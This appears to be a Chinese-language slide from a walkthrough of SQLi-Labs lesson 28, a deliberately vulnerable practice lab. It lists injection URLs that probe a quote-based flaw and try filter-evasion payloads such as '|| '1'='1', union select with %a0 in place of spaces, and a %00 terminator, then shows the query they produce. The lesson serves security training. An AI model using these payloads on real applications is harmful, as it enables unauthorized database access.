

# Less-28_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://47.100.118.240:8888/Less-28/?id=1 显示正常
2. http://47.100.118.240:8888/Less-28/?id=1’ 此时显示不正常，说明可能存在注入漏洞
接下来就是坑来了：
3. http://47.100.118.240:8888/Less-28/?id=1‘ || ’1‘=‘1  这个时候数据回显正常
4. http://47.100.118.240:8888/Less-28/?id=1‘  %a0   union %a0   select %a0  1,2,3      || ’1‘=‘1  这个正常的操作但是显示确实错误的？  我们将   ||进行替换一下
5. http://47.100.118.240:8888/Less-28/?id=1‘  %a0   union %a0   select %a0  1,2,3     ;%00  还是显示错误的
问题在哪？
通过查看源代码可知：
http://127.0.0.1/sqli/Less-28/?id=1‘   || ’1‘=‘2 查询的sql语句：SELECT * FROM users WHERE id=('1'||'1'='2') LIMIT 0,1